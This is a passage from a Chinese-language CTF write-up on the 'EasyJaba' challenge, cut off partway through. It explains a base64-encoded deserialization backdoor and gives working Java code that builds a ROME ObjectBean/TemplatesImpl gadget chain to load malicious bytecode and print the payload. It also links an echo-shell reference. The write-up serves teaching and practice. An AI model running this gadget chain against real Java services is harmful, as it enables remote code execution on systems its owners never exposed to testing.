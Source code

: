 参考：
[d3ctf wp汇总 ](https://syclover.notion.site/d3ctf-wp-6f6993806bbe4291828fe74de0223500)

#### [陇原战"疫"2021]EasyJaba
>不出网

首先查看代码，发现存在一个后门
![](https://img-blog.csdnimg.cn/0392a41ba65d45cc86d0e40b62c58c0f.png)
传一个ctf，进行base64解密，然后使用黑名单过滤掉了`HashMap`和`BadAttributeValueExpException`，最后`readObject()`触发反序列化
发现存在Rome1.0，并且后面直接调用了toString方法，我们直接使用前面的链子就行了
ezjaba.java：
```java
package rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;

public class ezjaba {
    public static void main(String[] args) throws Exception{
        //不出网，加载恶意类的方式
        byte[][] evilCode=new byte[][]{ClassPool.getDefault().get(EvilTemplate.class.getName()).toBytecode()};

        // 实例化类并设置属性
        TemplatesImpl tmpl = new TemplatesImpl();
        Field fieldByteCodes = tmpl.getClass().getDeclaredField("_bytecodes");
        fieldByteCodes.setAccessible(true);
        fieldByteCodes.set(tmpl, evilCode);

        Field fieldName = tmpl.getClass().getDeclaredField("_name");
        fieldName.setAccessible(true);
        fieldName.set(tmpl, "a");

        ObjectBean objectBean1 = new ObjectBean(Templates.class, tmpl);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(byteArrayOutputStream);
        out.writeObject(objectBean1);
        byte[] s = byteArrayOutputStream.toByteArray();
        out.close();
        String exp = Base64.getEncoder().encodeToString(s);
        System.out.println(exp);

    }
}
```
回显马参考：[https://github.com/SummerSec/JavaLearnVulnerability/blob/master/Rce_Echo/TomcatEcho/src/main/java/summersec/echo/Controller/SpringEcho.java](https://github.com/SummerSec/JavaLearnVulnerability/blob/master/Rce_Echo/TomcatEcho/src/main/java/summersec/echo/Controller/SpringEcho.java)
EvilTemplate.java：
```java
package rome;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import java.io.*;
import java.lang.reflect.Method;
import java.util.Scanner;

```